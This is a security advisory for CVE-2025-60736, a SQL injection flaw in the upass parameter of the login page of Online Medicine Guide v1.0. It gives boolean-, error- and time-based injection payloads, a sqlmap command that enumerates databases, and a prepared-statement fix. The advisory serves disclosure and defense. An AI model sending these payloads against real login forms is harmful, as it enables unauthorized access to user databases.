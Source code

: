 # CVE-2025-60736: SQL Injection Vulnerability in Online Medicine Guide

## Executive Summary

This document outlines a critical SQL injection vulnerability discovered in the Online Medicine Guide web application. The vulnerability allows unauthorized database access and poses significant security risks to the application and its users.

## Submitter
- **Noah "nxvh" Heraud**

## 1. Product Information

### Affected Product
- **Product Name**: Online Medicine Guide
- **Vendor**: Code Projects
- **Vendor Homepage**: https://code-projects.org/online-medicine-guide-in-php-css-javascript-and-mysql-free-download/
- **Affected Version**: v1.0
- **Vulnerable File**: `/login.php`
- **Software Type**: Web Application (PHP/MySQL)

### Technical Details
- **Programming Language**: PHP
- **Database**: MySQL
- **Frontend**: CSS, JavaScript
- **Architecture**: LAMP/WAMP Stack

## 2. Vulnerability Details

### Vulnerability Classification
- **CVE ID**: CVE-2025-60736
- **Vulnerability Type**: SQL Injection
- **Severity**: Critical
- **CVSS Score**: 9.8 (Critical)
- **Attack Vector**: Network
- **Attack Complexity**: Low
- **Privileges Required**: None
- **User Interaction**: None
- **Scope**: Changed

### Root Cause Analysis
The vulnerability stems from insufficient input validation and sanitization in the `/login.php` file. The application directly concatenates user input from the `upass` parameter into SQL queries without proper sanitization or prepared statements.

**Technical Root Cause**:
- Direct string concatenation in SQL queries
- Lack of input validation and sanitization
- Missing prepared statements implementation
- Insufficient parameter binding

## 3. Proof of Concept

### Vulnerability Location
- **File**: `/login.php`
- **Parameter**: `upass` (POST)
- **Attack Vector**: HTTP POST request manipulation

### Exploitation Methods

#### Method 1: Boolean-Based SQL Injection
```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

uname=uLnf&upass=rZgo' OR NOT 1852=1852-- iPRx
````

#### Method 1: Error-Based SQL Injection
```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

uname=uLnf&upass=rZgo' AND EXTRACTVALUE(4672,CONCAT(0x5c,0x7176707071,(SELECT (ELT(4672=4672,1))),0x71717a7071))-- knKp
```

#### Method 2: Time-Based Blind SQL Injection
```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

uname=uLnf&upass=rZgo' AND (SELECT 2089 FROM (SELECT(SLEEP(5)))zUlY)-- mWfa
```

### Automated Testing
The vulnerability was confirmed using sqlmap:
```bash
sqlmap -u "http://localhost:8000/login.php" --data="uname=admin&upass=test" -p upass --batch --dbs
```

![proof of exploit](proof.png)

## 4. Remediation Plan

### Immediate Actions
1. **Emergency Patch**: Implement input validation for `upass` parameter
2. **Database Monitoring**: Enable comprehensive logging for suspicious activities
3. **Access Restriction**: Implement rate limiting and IP-based restrictions
4. **Security Audit**: Conduct immediate security assessment


## 5. Technical Remediation

### Code Fix Example
**Before (Vulnerable)**:
```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['uname'] . "'";
```

**After (Secure)**:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$_POST['uname']]);
```

### Security Best Practices Implementation
1. **Prepared Statements**: Use parameterized queries exclusively
2. **Input Validation**: Implement whitelist-based validation
3. **Output Encoding**: Properly encode all output data
4. **Error Handling**: Implement secure error handling without information disclosure
5. **Access Controls**: Implement proper authentication and authorization

---

**Document Version**: 1.0  
**Last Updated**: 03/10/2025 (dd/mm/yyyy)
